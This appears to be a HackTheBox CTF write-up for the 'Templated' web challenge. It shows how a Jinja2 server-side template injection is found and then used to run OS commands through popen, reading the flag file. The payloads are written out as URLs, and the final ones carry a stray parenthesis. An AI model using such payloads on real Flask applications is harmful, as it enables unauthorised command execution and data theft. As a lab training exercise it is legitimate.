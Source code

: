 ```yaml
---
title: Templated [HackTheBox] Writeup
author: Arijit Bhowmick [sys41x4]
date: 2021-03-21 18:32:00 -0500
categories: [HackTheBox, Challenges, Web]
tags: [HackTheBox, Easy, templated, Web, Challenge, writeup, python3, python]
permalink: "/HTB/challenge/web/Templated"
---
```


[![HTB Img](/assets/htb/htb-img/htb_logo.jpeg)](http://hackthebox.eu)

### Challenge Description

![Challenge Details](/assets/htb/challenge/web/templated/img/challenge_desc.png)

```
Can you exploit this simple mistake?
```

## SOLUTION

Click on the `Start Instance` button to start the challenge.

Then you are provided with an `web address` in the form of `<ip>:<port>`. Copy it and open it in another tab or browser.
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :

![homepage](/assets/htb/challenge/web/templated/img/homepage.png)


The webapp shows a message 
`Site still under construction`<br>
`Proudly powered by Flask/Jinja2`<br>

Here we can see that it says that it is made with `Flask/Jinja2`.

### Searching exploits for `Flask/Jinja2`:

I have started searching exploits for `Flask/Jinja2`.
Then I came across <br>
1. <a href='https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee' target='_blank'>ssti in flask jinja2</a><br>
2. <a href='https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2' target='_blank'>Server Side Template Injection with jinja2</a>

Here it says about the SSTI exploit.

### Test Exploit :

After modifying the provided url to {% raw %}`http://46.101.92.17:31311/{{41+41}}`{% endraw %}

I have noticed that the returned result evaluates the value.

![test_exploit](/assets/htb/challenge/web/templated/img/test_exploit_1.png)

Then I came across:
![exploit_info_gather](/assets/htb/challenge/web/templated/img/exploit_info_gather.png)

### Creating the exploit:

I have manipulated 
{% raw %}
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
{% endraw %}<br>
step by step.


![root_id_info](/assets/htb/challenge/web/templated/img/root_id_info.png)

![root_directory_content](/assets/htb/challenge/web/templated/img/root_directory_content.png)

#### EXPLOIT Code:

{% raw %}
```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}

Format:

{% raw %}
```
http://<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}
This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.
In my case it was `http://46.101.92.17:31311`

![exploit](/assets/htb/challenge/web/templated/img/exploit.png)

This is how, I solved this challenge.

Thankyou, for reading my writeup :)<br>
Hope, I would see you in my next writeup.

<a href="/support/sys41x4">Support Me</a> if you want to.